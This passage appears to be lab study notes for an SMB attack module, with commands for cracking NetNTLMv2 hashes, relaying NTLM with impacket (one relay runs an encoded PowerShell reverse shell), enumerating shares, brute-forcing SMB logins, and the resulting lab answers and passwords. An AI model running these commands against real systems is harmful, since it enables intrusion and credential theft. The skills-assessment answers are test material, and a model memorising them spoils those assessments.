 ### 2. Hash Cracking
```bash
# Crack NetNTLMv2 with hashcat
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

# Example successful crack
ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:...:P@ssword
```

### 3. NTLM Relay Attacks

#### Setup NTLM Relay
```bash
# Disable SMB in Responder config
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Setup relay to target
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

#### Advanced Relay with Commands
```bash
# Execute PowerShell reverse shell via relay
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 \
-c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0...'

# Result: NT AUTHORITY\SYSTEM shell
```

---

## 📝 Skills Assessment Examples

### Example 1: Share Discovery
**Task**: Find shared folder with READ permissions

```bash
# Use enum4linux to enumerate shares
enum4linux 10.129.203.6

# Look for share mappings
//10.129.203.6/GGJ    Mapping: OK, Listing: OK

# Answer: GGJ
```

### Example 2: Password Brute Force
**Task**: Find password for username "jason"

```bash
# Metasploit brute force
msfconsole -q
use auxiliary/scanner/smb/smb_login
set rhosts 10.129.167.224
set SMBUSER jason
set PASS_FILE ./pws.list
set stop_on_success true
run

# Success result
[+] 10.129.167.224:445 - Success: '.\jason:34c8zuNBo91!@28Bszh'
```
